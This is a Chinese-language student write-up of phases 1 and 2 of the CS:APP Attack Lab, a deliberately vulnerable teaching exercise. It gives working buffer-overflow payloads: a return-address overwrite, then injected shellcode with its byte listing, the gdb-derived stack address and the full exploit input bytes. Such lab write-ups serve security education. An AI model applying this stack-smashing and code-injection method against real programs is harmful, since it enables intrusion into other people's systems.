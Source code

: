 # Attacklab

做到这个lab才发现有writeup。

## phase_1

目标是通过注入实现调用touch1函数。

先用objdump -d把汇编代码搞出来，查看getbuf和test函数开了多大的栈空间。我这里的getbuf开的是0x28，那就构造一个40个字节的输入数据先填满它，再构造一个8字节的数据覆盖test函数在栈里的位置，程序就会执行那8个字节指向位置的代码了。

这里要我们执行touch1函数，在汇编代码里查看其对应字节是00000000004017c0，注意要改成小端法表示，加到那40个字节后面即可。

随后`./hex2raw -i touch1.txt | ./ctarget -q`即完成phase_1。

## phase_2

目标是通过注入代码实现调用touch2并把参数设置成自己的cookie(我的cookie是0x59b997fa）。

注入的代码中不能含有call和jmp指令，因此要调用touch2函数，只好先将touch2函数的地址压入栈中，随后借助ret指令执行。

因此要注入的代码如下

```c
movq    $0x59b997fa, %rdi
pushq   $0x4017ec
ret
```

如何注入？首先将上述代码保存为touch2.s，通过gcc touch2.s -c 命令将其编译但不链接，生成touch2.o文件。随后通过objdump touch2.o -d 即可得到上述汇编代码对应的字节码

```shell
root@YJMSTR-Alienware17:/mnt/c/csapp/attacklab/target1# objdump -d touch2.o

touch2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```

我们要的是`48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3`.

随后根据上述数据构造48字节的输入数据，前40个字节包含我们的攻击代码，最后8个字节覆盖原先栈中的返回地址，使其指向我们注入的代码的起始地址。

可以在gdb中通过单步调试和layout reg获取%rsp的值，用于计算我们注入的代码的起始地址。在getbuf函数打个断电，当程序运行到这个断点时，%rsp的值为 0x5561dca0，再单步执行一步，把它减去0x28，即为我们输入的字节码存放的起始地址0x5561dc78 。由于x86-64的linux系统是小端法表示，需要将其写成78 dc 61 55 00 00 00 00.

最终我们的输入文件touch2.txt中的内容如下

```assembly
48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 dc 61 55 00 00 00 00
```

执行命令`./hex2raw -i touch2.txt | ./ctarget -q `，即完成phase_2.



